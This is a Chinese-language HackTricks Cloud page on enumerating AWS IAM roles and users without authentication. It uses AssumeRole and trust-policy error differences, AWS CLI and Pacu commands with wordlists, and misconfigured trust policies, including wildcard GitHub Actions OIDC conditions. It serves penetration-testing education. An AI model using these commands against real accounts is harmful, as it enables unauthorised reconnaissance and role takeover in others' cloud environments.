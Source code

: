 # AWS - IAM & STS 未经身份验证的枚举

{% hint style="success" %}
学习并练习 AWS 黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习 GCP 黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

## 枚举账户中的角色和用户名

### ~~假定角色暴力破解~~

{% hint style="danger" %}
**这种技术不再有效**，因为无论角色是否存在，您始终会收到以下错误：

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

您可以通过运行以下命令**测试**：

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

尝试**假定一个没有必要权限的角色**会触发 AWS 的错误消息。例如，如果未经授权，AWS 可能会返回：
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
这条消息确认了角色的存在，但表明其假定角色策略不允许您进行假定。相比之下，尝试**假定一个不存在的角色会导致不同的错误**：
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
有趣的是，这种**区分现有角色和不存在角色**的方法甚至适用于不同的AWS账户。通过一个有效的AWS账户ID和一个有针对性的字典，可以枚举出账户中存在的角色，而不会面临任何固有的限制。

您可以使用这个[脚本来枚举潜在的主体](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum)来滥用这个问题。

### 信任策略：暴力破解跨账户角色和用户

配置或更新**IAM角色的信任策略涉及定义哪些AWS资源或服务被允许扮演该角色**并获取临时凭证。如果策略中指定的资源**存在**，信任策略会**成功保存**。然而，如果资源**不存在**，则会生成一个**错误**，指示提供了无效的主体。

{% hint style="warning" %}
请注意，在该资源中，您可以指定跨账户角色或用户：

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

这是一个策略示例：
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

这是您将找到的**错误**，如果您使用一个**不存在的角色**。如果角色**存在**，则策略将**保存**而不会出现任何错误。（该错误是用于更新，但在创建时也适用）

![](<../../../.gitbook/assets/image (68).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
你可以使用[https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)来自动化这个过程。

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

我们使用[Pacu](https://github.com/RhinoSecurityLabs/pacu)：

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* 在示例中使用的`admin`角色是**由pacu用来模拟的您账户中的角色**，以创建所需的枚举策略。

### 提权

如果角色配置不当并允许任何人扮演它：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
## 第三方OIDC联合

假设攻击者可以假装成它。

想象一下，你成功读取了一个正在访问**AWS**中的**角色**的**Github Actions工作流**。\
这种信任可能会给予一个具有以下**信任策略**的角色访问权限：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
这个信任策略可能是正确的，但**缺乏更多条件**应该让你不信任它。\
这是因为之前的角色可以被**来自 Github Actions 的任何人**所扮演！你应该在条件中指定其他事项，比如组织名称、仓库名称、环境、分支...

另一个潜在的配置错误是**添加一个条件**，如下所示：
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
请注意，在**冒号**（:）之前的**通配符**（\*）。您可以创建一个名为**org\_name1**的组织，并从Github操作中**假定角色**。

## 参考资料

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
学习并练习AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}
